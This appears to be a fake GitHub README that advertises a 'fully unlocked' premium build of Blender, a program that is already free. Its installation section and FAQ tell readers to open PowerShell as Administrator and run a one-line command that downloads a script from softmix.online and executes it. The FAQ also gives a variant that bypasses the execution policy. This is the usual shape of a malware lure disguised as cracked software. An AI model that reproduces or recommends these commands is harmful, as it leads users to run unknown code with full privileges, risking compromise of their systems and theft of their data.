

<div align="center">


<br>


# Blender 3D Production Studio Full Setup
**Production Studio · Cycles · Geometry**
<br>
**Production Studio · Cycles · Geometry**
<br>
Premium · Pro · Full build · Windows



**Fully unlocked Blender Production Studio — sculpting, rigging, Cycles GPU rendering, Geometry Nodes and compositor all active.**

</div>

---

> Production setup includes Cycles, Geometry Nodes and full add-on library — create films and games without feature tiers.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

- 🧊 **Full pipeline** — Modeling, sculpting, UV and texture painting enabled.
- 🎬 **Animation** — Rigging, grease pencil and motion tracking included.
- 💡 **Cycles & Eevee** — GPU rendering and compositor nodes active.
- 🔗 **Geometry Nodes** — Procedural modeling and simulation tools enabled.
- 🔓 **All add-ons** — Premium community and official add-ons included.
- 📤 **Export** — glTF, USD, FBX and video without watermarks.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 10 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 10 GB free space.
</details>


TAGS
blender-3d, blender-studio, cycles-render, geometry-nodes, grease-pencil, blender-2026, eevee-render, 3d-graphics, animation, open-source-3d, vfx, game-development, creative-tools, blender, 3d-animation
